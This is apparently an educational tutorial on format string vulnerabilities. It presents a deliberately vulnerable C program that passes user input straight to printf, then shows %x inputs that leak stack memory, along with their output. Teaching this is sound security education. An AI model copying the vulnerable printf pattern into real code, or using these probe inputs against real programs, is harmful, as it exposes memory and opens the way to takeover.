 # Format String Vulnerability
---

A format string vulnerability is a vulnerability about using vulnerable functions of the printf family, which don't check the format string itself. With proper format specifier, you can view arbitrary data within the program, overwrite it and even control the flow of the program.

## View vulnerability

Consider the program:
```C
#include <stdio.h>
#include <string.h>

// gcc format-string.c -o format-string -m32

int main(int argc, char *argv[]){
  char buff[200];
  strncpy(buff, argv[1], 200);
  printf(buff);
  return 0;
}
```

Input usual string:
```bash
$ ./format-string "My string"
My string
```

Input string with format specifier `x` which will show you hex:
```bash
$ ./format-string AAAA%x
AAAAff932ef
```

You'll get some strange input...

Try another one:
```bash
$ ./format-string AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
AAAAffd972d4.c8.5665522b.0.0.0.ffd96424.0.41414141.252e7825
```

In this case, you got another artifact. Dots here is to simplify the view.

So, the artifact 41414141 is our string that we input at the beginning of the string. And this all is a stack. The program itslef gives us the content of the stack.
```bash
$ ./format-string AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
AAAAffe442cb.c8.565d922b.0.0.0.ffe43aa4.0.41414141.252e7825.78252e78.2e78252e.252e7825
```

The next stuff is a continuation of our string.
